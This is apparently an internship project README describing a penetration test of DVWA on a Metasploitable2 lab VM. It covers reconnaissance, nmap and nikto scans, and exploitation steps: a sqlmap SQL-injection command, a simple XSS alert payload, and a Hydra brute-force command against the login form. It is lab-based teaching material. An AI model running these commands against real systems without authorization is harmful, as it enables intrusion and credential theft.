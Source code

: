 Name: Akash Anil Horambe

Company: CODTECH IT SOLUTIONS

ID : CT08DS5369

Domain: Cyber Security & Ethical Hacking

Duration: July to August 2024

Mentor: Muzammil Ahmed

---

# Penetration Testing on Metasploitable2 DVWA Web Application

This project involves performing penetration testing on a Metasploitable2 DVWA (Damn Vulnerable Web Application) web application to identify and exploit security vulnerabilities such as SQL injection, cross-site scripting (XSS), and insecure authentication mechanisms.

## Table of Contents
- [Overview](#overview)
- [Setup Instructions](#setup-instructions)
- [Reconnaissance](#reconnaissance)
- [Port Scanning](#port-scanning)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploitation](#exploitation)

## Overview

Metasploitable2 is a deliberately vulnerable Linux virtual machine intended for testing security tools and demonstrating common vulnerabilities. DVWA is a PHP/MySQL web application that is designed to be vulnerable to various web application attacks, making it a perfect candidate for learning and practicing penetration testing techniques.

## Setup Instructions

1. **Download and Install Metasploitable2:**
   - Download the Metasploitable2 VM from the official [SourceForge page](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).
   - Import the VM into your preferred virtualization software (e.g., VirtualBox or VMware).

2. **Configure Network Settings:**
   - Ensure the Metasploitable2 VM and your Kali Linux machine are on the same network. This can be done using Host-Only or NAT Network settings.

3. **Start Metasploitable2 VM:**
   - Boot up the Metasploitable2 VM.

4. **Identify IP Address:**
   - Identify the IP address of the Metasploitable2 VM using the command: `ip a`

## Reconnaissance

1. **Identify the Target IP:**
   ```bash
   echo ip 192.168.40.129
   ```

2. **Perform Whois Lookup:**
   ```bash
   whois 192.168.40.129
   ```

3. **DNS Lookup:**
   ```bash
   nslookup 192.168.40.129
   ```

4. **Identify Web Server and Technologies:**
   ```bash
   whatweb 192.168.40.129
   ```

## Port Scanning

1. **Basic Nmap Scan:**
   ```bash
   nmap --help
   ```

2. **Comprehensive Nmap Scan:**
   ```bash
   nmap -sS -sV -O 192.168.40.129
   ```

## Vulnerability Scanning

1. **Run Nmap Vulnerability Scans:**
   ```bash
   nmap --script vuln 192.168.40.129
   ```

2. **Nikto Web Server Scan:**
   ```bash
   nikto -h http://192.168.40.129
   ```

## Exploitation

1. **SQL Injection:**
   - Test for SQL injection vulnerabilities by manipulating the URL parameters and observing the responses.
   - Use SQLMap to automate the detection and exploitation of SQL injection flaws.
     ```bash
     sqlmap -u "http://192.168.40.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs
     ```

2. **Cross-Site Scripting (XSS):**
   - Identify XSS vulnerabilities by injecting scripts into input fields and observing the output.
   - Example payload:
     ```html
     <script>alert('XSS')</script>
     ```

3. **Insecure Authentication Mechanisms:**
   - Test for weak passwords and brute force login attempts.
   - Use tools like Hydra for automating the brute force attacks.
     ```bash
     hydra -l admin -P /path/to/wordlist.txt 192.168.40.129 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
     ```

## Conclusion

This project demonstrates the process of performing penetration testing on a vulnerable web application using various tools and techniques. By identifying and exploiting vulnerabilities, we can understand the importance of securing web applications and the potential risks associated with these common security flaws.

**Note:** This README is intended for educational purposes only. Always obtain proper authorization before performing any penetration testing on a network or system that you do not own.

## License
This project is licensed under the MIT License[LICENSE]. See the LICENSE file for more details.
